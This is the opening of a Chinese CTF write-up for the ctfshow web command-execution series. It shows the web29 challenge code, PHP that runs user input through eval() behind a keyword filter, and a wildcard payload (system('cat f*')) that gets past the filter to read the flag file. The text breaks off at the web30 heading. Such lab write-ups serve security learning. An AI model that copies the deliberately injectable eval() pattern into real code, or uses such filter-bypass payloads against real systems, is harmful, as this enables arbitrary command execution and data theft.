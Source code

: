 # 原创
：  ctfshow web入门-命令执行

# ctfshow web入门-命令执行

#### ctfshow web入门-命令执行

## web29

> 
源码


```
&lt;?php

error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/flag/i", $c)){
eval($c);
}

}else{
highlight_file(__FILE__);
}

```

> 
关键词被过滤的话可以考虑通配符绕过


```
*代表任意字符 0 个或多个
?代表任意字符 1 个
[abcd]匹配abcd中一个字符
[a-z]匹配范围 a-z

```

> 
Payload


```
?c=system('cat f*');

```

## web30

> 
源码

